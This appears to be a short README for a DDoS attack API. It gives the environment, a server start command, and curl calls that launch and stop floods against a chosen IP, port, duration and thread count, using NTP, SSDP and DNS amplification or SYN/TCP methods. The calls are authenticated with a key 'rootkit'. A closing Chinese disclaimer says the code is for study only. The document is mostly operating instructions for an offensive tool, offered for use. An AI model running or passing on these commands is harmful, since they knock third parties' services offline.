 命令执行接口调用

### Env
* Centos 6/7
* Python 2.6/2.7+

### Run
```
# /opt/DDoSApi/RunServer
```

### Call Api Example

* Task execution
```
# curl -sd "key=rootkit&host=[IP]&port=[PORT]&time=[time/sec]&thread=[threads]&method=[ntp|ssdp|dns|syn|tcp]&stop=0" http://ServerIp:Port/api
```

* Stop Task
```
# curl -sd "key=rootkit&host=[IP]&port=[PORT]&time=[time/sec]&thread=[threads]&method=[ntp|ssdp|dns|syn|tcp]&stop=1" http://ServerIp:Port/api
```
-- -
本代码仅供学习交流使用， 如用将该代码于非法用途所导致的后果自负，与作者无关...
